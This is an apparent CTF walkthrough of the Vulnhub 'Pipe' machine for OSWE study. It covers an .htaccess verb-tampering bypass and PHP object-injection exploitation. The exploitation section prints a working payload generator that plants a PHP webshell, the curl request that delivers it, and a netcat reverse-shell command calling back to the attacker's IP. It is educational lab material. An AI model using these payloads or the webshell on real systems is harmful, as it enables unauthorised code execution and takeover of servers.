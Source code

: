 ```yaml
---
title: "HTB and Vulnhub: Pipe Walkthrough"
date: 2020-02-10 12:30:00 +0100
categories: [Web Exploitation, OSWE]
tags: [certifications, offsec, web, ctf]     # TAG names should always be lowercase
---
```


### Pipe - Insecure Deserialization

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Pipe web application is made up on 3 PHP files only, not enough to be a challenge. But for anyone very unfamiliar with PHP Object injection it's good doing this exercise.

#### Vulnerability Discovery

The application is .htaccess protected, but easily accessible via HTTP verb tampering, as observable below:

```xml
AuthUserFile /var/www/html/.htpasswd
AuthName "index.php"
AuthType Basic
<Limit GET PUT HEAD OPTIONS DELETE>
    require valid-user
</Limit>
```

The index.php, below, reveal an interesting application behaviour. In order to get the author information, an instance of Info is created within the page, then compared with a serialised object via an HTTP POST parameter "param".

Things to note:

* The POST parameter "param" is insecurely unserialized
* Two imports are present within the index file:
    - info.php (not a surprise)
    - log.php

Note: I have removed all the HTML useless bits.
```php
<?php
include 'info.php';
include 'log.php';

$artist = new Info();
$artist->id = 1;
$artist->firstname = 'Rene';
$artist->surname = 'Margitte';
$artist->details = '...';

...
if (isset($_POST['param'])) {
    $info = unserialize($_POST['param']);
    if (strcasecmp($info->firstname, $artist->firstname) == 0 && strcasecmp($info->surname, $artist->surname) == 0){
        echo $artist->details;
    }
}
...
?>
```

The info class is just a structure with no methods. Let's focus on log.php:

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

We found the class we were searching for. The class holds two variables, $filename and $data, and upon destruction it writes the content of $data into $filename. It's perfectly suitable as a gadget for exploitation, as the __destruct() method will be called just after deserialization.

High level explanation: 

1. HTTP POST with serialised Log is performed against index.php 
2. index.php (caller) calls unserialize and create an instance of Log via deserialization
3. index.php (caller) reaches its end, 
4. The instance of the Log (called) object has no reasons to stay in memory longer than its caller, so it gets destructed
5. __destruct()

#### Exploitation

We just need to craft a serialised instance of Log, to write something within the VM filesystem. Guess what? Right, a PHP webshell (or even a PHP reverse-shell as you like)

Crafting the payload:

* Create the file generate.php
```php
<?php 
class Log
{  
    public $filename="/var/www/html/shell.php";
    public $data="<?php system(\$_GET['cmd']);?>";
}
print(urlencode(serialize(new Log))."\n"); 
?>
```
* Execute it
```sh
php generate.php
```
* Use it:
```sh
curl -ksi -X POST 'http://pipe.local/index.php' --data-binary 'param=O%3A3%3A%22Log%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A24%3A%22%2Fvar%2Fwww%2Fhtml%2Fshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A29%3A%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D'
```
* Obtain a reverse shell
```sh
gnome-terminal -- nc -lvkp 443 2>/dev/null && curl -ksi http://pipe.local/shell.php?cmd=nc+-e+/bin/bash+MY_IP+443
```

#### Conclusion

Good machine to start with PHP deserialization, but not even close to the level of complexity that OSWE can achieve.
